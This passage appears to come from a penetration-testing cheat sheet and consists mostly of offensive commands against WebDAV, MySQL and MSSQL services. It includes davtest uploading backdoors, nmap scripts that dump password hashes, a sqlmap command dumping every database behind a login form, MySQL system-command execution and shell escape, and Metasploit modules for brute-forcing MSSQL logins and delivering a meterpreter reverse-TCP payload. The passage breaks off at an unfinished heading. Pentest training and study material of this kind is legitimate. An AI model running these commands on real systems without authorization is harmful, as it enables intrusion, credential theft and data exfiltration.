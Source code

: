Test for it

```text
davtest -move -sendbd auto -url http://$ip:8080/webdav/
```

```text
cadaver http://$ip:8080/webdav/
```

## Mysql

* ```text
  nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $ip -p 3306
  ```

#### Nmap scan

```text
nmap -sV -Pn -vv -script=mysql* $ip -p 3306
```

#### Vuln scanning:

```text
sqlmap -u 'http://$ip/login-off.asp' --method POST  --data 'txtLoginID=admin&txtPassword=aa&cmdSubmit=Login' --all --dump-all
```

If Mysql is running as root and you have access, you can run commands:

```text
mysql> select do_system('id');
mysql> \! sh
```

#### Enumerate MSSQL Servers on the network

```text
msf > use auxiliary/scanner/mssql/mssql_ping
nmap -sU --script=ms-sql-info $ip
```

#### Bruteforce MsSql

```text
msf auxiliary(mssql_login) > use auxiliary/scanner/mssql/mssql_login
```

#### Gain shell using gathered credentials

```text
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

#### Log in to a MsSql server:
